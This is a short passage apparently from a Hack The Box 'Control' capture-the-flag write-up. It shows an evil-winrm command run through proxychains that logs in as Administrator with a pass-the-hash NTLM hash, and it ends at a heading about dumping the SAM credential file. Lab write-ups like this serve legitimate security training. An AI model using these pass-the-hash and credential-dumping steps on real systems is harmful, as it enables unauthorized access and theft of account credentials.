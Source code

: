 Login as Administrator in the machine

```bash
proxychains evil-winrm -i 127.0.0.1 -u 'Administrator' -H 'c2b0900f281741100a59fd04e3d72ef0'
```

![image.png](/assets/Images/HTB_Control/image%2027.png)

Dumping the `sam` file
